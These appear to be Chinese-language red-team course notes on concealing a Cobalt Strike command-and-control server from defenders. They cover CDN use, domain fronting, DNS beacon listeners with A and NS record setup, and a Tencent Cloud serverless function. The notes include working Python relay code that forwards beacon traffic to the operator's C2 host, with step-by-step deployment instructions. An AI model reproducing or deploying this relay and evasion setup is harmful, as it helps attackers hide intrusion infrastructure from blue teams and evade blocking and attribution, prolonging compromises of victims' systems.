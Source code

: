 ### 使用 CDN

总所周知， CND 可以指定域名指向多个 ip ，这时候蓝队看到的就是我们使用 CDN 加速后的其它 ip 了，蓝队可以把teamserver可用 ip 给全封了，也可以直接封域名

使用参考

[F:\xiaodi\014-红队-小迪安全\155-红队-流量加密隐藏&CDN配置&C2项目等\Aliyun-CS-C2&CDN配置-小迪安全.docx]()

配置：https://mp.weixin.qq.com/s/MghFgegdp3l3tFE3hOvcYw

### 反朔源隐藏

C2 项目 & CDN 域前置 & 云函数 & 数据中转 & DNS 转发

```
#域前置-CDN配合
大部分IDC不再支持

#DNS协议-域名记录解析
1、域名解析设置A,NS记录
ns1 ns cs.xxx.com
ns2 ns cs.xxx.com
cs  A  xx.xx.xx.xx(CS的IP)
2、CS监听器-DNS
Beacon DNS
DNS地址配置：
ns1.xxx.com
ns2.xxx.com
3、执行后checkin唤醒

#云函数-腾讯云操作
1、创建云函数
腾讯云-云产品-云函数-函数服务-新建
2、创建函数服务
选择从头开始-函数类型选择事件函数-函数名称任意-
运行环境选择python3.6-并复制如下代码并修改CS的IP-点击完成
# -*- coding: utf8 -*-
import json,requests,base64
def main_handler(event, context):
    C2='https://XXXX'  # 修改为自己C2服务器地址
    path=event['path']
    headers=event['headers']
    print(event)
    if event['httpMethod'] == 'GET' :
        resp=requests.get(C2+path,headers=headers,verify=False) 
    else:
        resp=requests.post(C2+path,data=event['body'],headers=headers,verify=False)
        print(resp.headers)
        print(resp.content)

    response={
        "isBase64Encoded": True,
        "statusCode": resp.status_code,
        "headers": dict(resp.headers),
        "body": str(base64.b64encode(resp.content))[2:-1]
    }
    return response
3、创建触发器
触发方式选择API网关触发-勾选启用集成响应-点击提交
4、配置触发器
点击API服务名对触发器进行配置
将路径修改为/，然后点击立即完成
5、配置profile文件-触发URL
set sample_name "t";
set sleeptime "3000";
```